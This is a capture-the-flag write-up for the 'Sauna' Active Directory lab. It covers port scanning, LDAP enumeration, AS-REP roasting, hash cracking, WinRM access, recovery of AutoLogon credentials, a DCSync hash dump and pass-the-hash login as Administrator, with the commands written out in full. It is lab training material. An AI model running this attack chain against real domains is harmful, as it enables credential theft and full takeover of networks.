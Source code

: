 # Sauna - Active Directory Lab

Date: 2024-11-09

---

## Scope

The target is an Active Directory environment with the hostname `sauna.htb` and IP `10.10.10.175`. I stored the target IP in a local file for reference:

```bash
echo 10.10.10.175 > target
```

Additionally, I added the following entry to the /etc/hosts file:

```bash
10.10.10.175 sauna.htb
```

---

## Enumeration

### 1. Full Port Scan

To discover all open ports on the target, I performed a full port scan:

```bash
nmap -p- -v -oN nmap/full_scan.sauna.txt 10.10.10.175
```

```
Open Ports Identified:

PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49677/tcp open  unknown
49698/tcp open  unknown
49720/tcp open  unknown
```

### 2. Service Enumeration

I conducted a detailed scan of the identified ports to gather more information:

```bash
nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49673,49674,49677,49698,49720 -A -T4 -v -oN nmap/tcp_ports_scan.sauna.txt -oX nmap/tcp_ports_scan.sauna.xml 10.10.10.175
```

Key Findings:

* OS: **Windows Server 2019**
* Domain: **EGOTISTICAL-BANK.LOCAL**
* Hostname: **SAUNA**

Notable Services:

* Kerberos (88/tcp)
* LDAP (389/tcp, 3268/tcp)
* HTTP (80/tcp) with IIS 10.0 hosting "Egotistical Bank"
* SMB (139/tcp, 445/tcp)
* WinRM (5985/tcp)

---

### HTTP Exploration

The HTTP service revealed a basic web page hosted on Microsoft IIS. I explored two pages:

* http://sauna.htb/single.html: Found usernames. Stored them in a file called users.
* http://sauna.htb/about.html: Identified team members and added them to the users file.

![image](https://github.com/user-attachments/assets/192dc48b-2e61-4809-bf0a-1d4cc842748b)

---

### LDAP Enumeration

1. General Queries

LDAP allowed **unauthenticated queries**. Running the following:

```bash
ldapsearch -H ldap://$(cat target):389/ -x -s base -x "(objectClass=*)" "*"
```

Findings:

* `rootDomainNamingContext: DC=EGOTISTICAL-BANK,DC=LOCAL`
* `Server Name: CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL`

2. Password Policy

Queried password policy with:

```bash
ldapsearch -H ldap://$(cat target):389/ -x -b 'DC=EGOTISTICAL-BANK,DC=LOCAL' "(objectClass=domain)" | grep Pwd
```

Result: Minimum password length is 7 characters.

---

### SMB Enumeration

SMB required authentication and could not be enumerated anonymously.

---

## Exploitation

### 1. User Enumeration and AS-REP Roasting

Using usernames from earlier, I created a custom username wordlist ([GitHub - CustListler](https://github.com/spread0942/CustListler)). Then, I used `GetNPUsers.py` to identify accounts vulnerable to AS-REP Roasting:

```bash
GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile users -format hashcat -outputfile ASREProastables.txt -dc-ip 10.10.10.175
```

Result: Found an **AS-REP hash** for user `fSmith`.

### 2. Cracking the Hash

Cracked the AS-REP hash using hashcat:

```bash
hashcat -m 18200 ASREProastables.txt /usr/share/wordlists/rockyou.txt
```

### 3. Access via WinRM

Using the cracked credentials, I accessed the machine with evil-winrm:

```bash
evil-winrm -i 10.10.10.175 -u "fSmith" -p "****"
```

Outcome: Retrieved the user flag.

---

## Privilege Escalation

### 1. BloodHound Enumeration

I used bloodhound-python for privilege escalation analysis:

```bash
mkdir loots && cd loots
bloodhound-python -d EGOTISTICAL-BANK.LOCAL -u "fSmith" -p "****" -ns 10.10.10.175 -c all
```

Findings: No significant paths for privilege escalation.

### 2. AutoLogon Credentials

Ran `winPEAS` and found AutoLogon credentials:

```
DefaultDomainName: EGOTISTICALBANK
DefaultUserName: EGOTISTICALBANK\svc_loanmgr
DefaultPassword: **********************
```

### 3. DCSync Attack

I marked as owned `svc_loanmgr` user on BloodHound and identified the possibility of a **DCSync attack**. 

![image](https://github.com/user-attachments/assets/98f799be-9037-41df-9160-aed2d7587659)

Using `secretsdump.py`, I dumped NTDS hashes:

```bash
secretsdump.py EGOTISTICAL-BANK/svc_loanmgr:"**********************"@10.10.10.175
```

Extracted Hashes:

```
Administrator NTLM Hash: aad3b.......:82345..........bdf86c7f98e
```

Using crackmapexec I confirmed the hash:

![image](https://github.com/user-attachments/assets/882612c7-4890-43dc-85f3-07cbda3bbd35)


## 4. Final Access

Used the administrator hash to log in via evil-winrm:

```bash
evil-winrm -i 10.10.10.175 -u "Administrator" -H "aad3b.......:82345..........bdf86c7f98e"
```

Outcome: Retrieved the root flag.

---

## Summary

1. Enumerated services and discovered users via HTTP and LDAP.
2. Exploited Kerberos AS-REP Roasting to gain initial access.
3. Used winPEAS to find AutoLogon credentials for privilege escalation.
4. Conducted a DCSync attack to dump NTDS hashes.
5. Logged in as the Administrator and retrieved both user and root flags.

---



